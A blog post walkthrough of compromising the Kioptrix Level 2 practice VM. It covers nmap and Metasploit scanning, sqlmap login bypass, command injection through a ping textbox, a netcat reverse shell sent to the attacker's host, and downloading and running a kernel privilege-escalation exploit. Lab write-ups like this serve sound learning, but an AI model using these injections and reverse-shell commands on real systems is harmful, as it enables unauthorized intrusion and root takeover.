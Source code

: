 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Kioptrix Level 2 Penetration Test
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){:class="img-responsive"}

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){:class="img-responsive"}

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #	This is the Kioptrix Machine IP 
						 #	that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}

![mysql](/assets/mysql version result.PNG){:class="img-responsive"}

Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 

![landing](/assets/web landing page.PNG){:class="img-responsive"}

A login page. Let's use burpsuite, intercept the login and see what we can find out. 

![burpsuite](/assets/burpsuite.PNG){:class="img-responsive"}

Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 

In terminal we write:

{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}

-u is for URL
--data this is where we put the data from our burpsuite intercept
--level is level of tests to perform from 1-5, may as well max it out
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. 

![sqlmap complete](/assets/sqlmap-complete.PNG){:class="img-responsive"}

sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 

Now we are at this page:

![web after login](/assets/webpage after login.PNG){:class="img-responsive"}

What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with {% highlight ruby %}nc -lvp 1111{% endhighlight %}. I used port 1111, you can use whatever port you wish. 

Then back in the webapp textbox we need to input {% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}



Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} and we now know it's Linux Kernel 2.6.9-55 - Let's google an exploit

![uname](/assets/kernel.PNG){:class="img-responsive"}


http://www.exploit-db.com/exploits/9542/

This exploit seems like it's gonna work for us! It's been tested on a similar machine to this one. 

Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){:class="img-responsive"}

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){:class="img-responsive"}


Thanks guys!
